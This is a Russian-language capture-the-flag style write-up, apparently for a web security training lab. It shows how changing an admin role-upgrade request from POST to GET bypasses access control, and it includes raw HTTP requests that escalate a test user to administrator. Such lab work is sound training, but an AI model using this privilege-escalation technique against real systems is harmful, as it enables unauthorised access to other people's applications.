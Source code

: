 Эта лаборатория реализует контроль доступа, основанный частично на методе HTTP-запросов. Вы можете ознакомиться с панелью администратора, войдя в систему, используя учетные данные `administrator:admin`.

Чтобы решить лабораторную работу, войдите в систему, используя учетные данные `wiener:peter`, и воспользуйтесь недостатками контроля доступа, чтобы повысить себя до уровня администратора.

## Дано

- Контроль доступа, основанный частично на методе HTTP-запросов
- ознакомиться с панелью администратора, войдя в систему, используя учетные данные `administrator:admin
- Учетные данные `wiener:peter`
## Задача

- повысить себя `wiener` до уровня администратора.
# Решение 

1. Посмотрели какие запросы используются при повышении привилегии
2. Зашли под wiener и изменили метод с пост на GET 
```
POST /admin-roles HTTP/2
Host: 0a6e00ce044708dd889edd3e0099008b.web-security-academy.net
Cookie: session=BgaCUqNCNGYj1H4gNM1ZzPQJaiqmSWio
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Origin: https://0a6e00ce044708dd889edd3e0099008b.web-security-academy.net
Referer: https://0a6e00ce044708dd889edd3e0099008b.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

username=wiener&action=upgrade
```
Change request method
```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a6e00ce044708dd889edd3e0099008b.web-security-academy.net
Cookie: session=BgaCUqNCNGYj1H4gNM1ZzPQJaiqmSWio
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Origin: https://0a6e00ce044708dd889edd3e0099008b.web-security-academy.net
Referer: https://0a6e00ce044708dd889edd3e0099008b.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
```